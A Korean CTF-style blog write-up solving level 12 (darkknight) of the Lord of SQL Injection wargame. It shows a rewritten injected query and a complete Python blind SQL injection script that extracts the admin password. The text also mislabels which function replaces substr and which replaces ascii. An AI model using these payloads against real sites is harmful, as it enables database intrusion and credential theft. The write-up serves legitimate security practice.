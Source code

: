 ```yaml
---
title: LOS - 12번 darkknight
category: Lord of SQL Injection
---
```


# [12] darkknight

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdN85X8%2Fbtrno40RWs3%2FkoWsihFtPt3Lhk7ku1KN51%2Fimg.png">

## 풀이

필터링 사항은 다음과 같다.


① 싱글쿼터

② substr

③ ascii

④ =


<br>

**substr/ascii 필터링 우회 방법**은 다음과 같다.
 

① substr → ord

② ascii → mid

<br> 

또한, 이전 문제와 마찬가지로 admin의 pw를 알아야 풀 수 있는 **Blind SQLi** 문제이다.

기존에 사용했던 자동화 코드에 새로운 필터링 사항을 적용해주면 될 것 같다.

<br> 

다만, 이전과는 달리 파라미터가 두개이므로 (pw, no) 서버측 쿼리문을 잠시 살펴보겠다.

<br> 

준비된 쿼리문은 다음과 같다.

```php
$query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";
```

<br>

위 쿼리문을 아래와 같이 변조해줄 것이다.

```php
$query = "select id from prob_darkknight where (id='guest' and pw='' and no=0) or id like \"admin\" %26%26 [pw 길이 확인 또는 pw 추출] %23";
```

① id부터 no까지를 하나의 중첩된 and 조건절로 묶어준다.

⇒ 어차피 FALSE로 만드는 것이 목표이기 때문에 pw는 비워두고 no에는 아무 숫자나 할당해준다.

② || id like "admin" && 뒤에 적절한 조건절을 삽입하여 pw 길이 확인 또는 pw 추출을 수행해준다.

 
<br>
 

이상의 내용을 반영하여 자동화 코드의 **check_length()** 를 다음과 같이 수정해준다.

```python
def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0 || id like \"admin\" %26%26 length(pw)>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num
```

① = → like (문자열 일치 확인)

② = → > (ASCII 대소 비교)

⇒ 숫자를 점점 올려가며 비교하기 때문에, 최초로 Hello admin이 뜨지 않는 경우가 곧 아스키가 일치하는 경우이다.

 
<br>
 

다음으로는 **blind_sqli()** 를 다음과 같이 수정해준다.

```python
def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0 || id like \"admin\" %26%26 ord(mid(pw,{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans
```

① substr → ord

② ascii → mid

 
<br>
 

**수정된 Python 자동화 코드**의 전문은 다음과 같다.

```python
import requests

def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0 || id like \"admin\" %26%26 length(pw)>{num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num

def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0 || id like \"admin\" %26%26 ord(mid(pw,{len},1))>{ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" not in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    
    length=check_length(url, cookie)
    print(f"👏 pw의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, length)
    print(f"👏 pw의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcWiNuI%2FbtrnlqwCc4k%2FHvtf8sJOMAnp84BYeqr9kk%2Fimg.png">

Blind 공격 결과, admin의 pw는 `0b70ea1f` 임을 알 수 있다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FlILVk%2FbtrnjDiSeOV%2FU0OL6DlmSD1nVNdLKX3m8k%2Fimg.png">